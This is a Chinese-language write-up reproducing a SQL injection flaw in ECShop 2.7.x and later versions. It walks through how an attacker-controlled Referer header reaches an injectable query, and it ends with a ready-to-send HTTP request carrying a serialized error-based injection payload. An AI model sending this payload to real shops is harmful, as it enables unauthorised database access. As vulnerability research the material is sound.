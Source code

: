 ECShop \<= 2.7.x sql注入漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析

先看user.php

![](./resource/ECShop<=2.7.xsql注入漏洞/media/rId25.png)

\$back\_act变量来源于HTTP\_REFERER，我们可控。

assign函数用于在模版变量里赋值

![](./resource/ECShop<=2.7.xsql注入漏洞/media/rId26.png)

再看display函数

![](./resource/ECShop<=2.7.xsql注入漏洞/media/rId27.png)

读取user\_passport.dwt模版文件内容，显示解析变量后的html内容，用\_echash做分割，得到\$k然后交给isnert\_mod处理，由于\_echash是默认的，不是随机生成的，所以\$val内容可随意控制。

再看insert\_mod函数

![](./resource/ECShop<=2.7.xsql注入漏洞/media/rId28.png)

非常关键的一个地方，这里进行了动态调用

\$val传入进来用\|分割，参数传入进来时需要被序列化

再看include/lib\_insert.php中的insert\_ads函数

![](./resource/ECShop<=2.7.xsql注入漏洞/media/rId29.png)

可以看到这里直接就能注入了

### payload

    GET /user.php?act=login HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

![](./resource/ECShop<=2.7.xsql注入漏洞/media/rId31.png)

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449
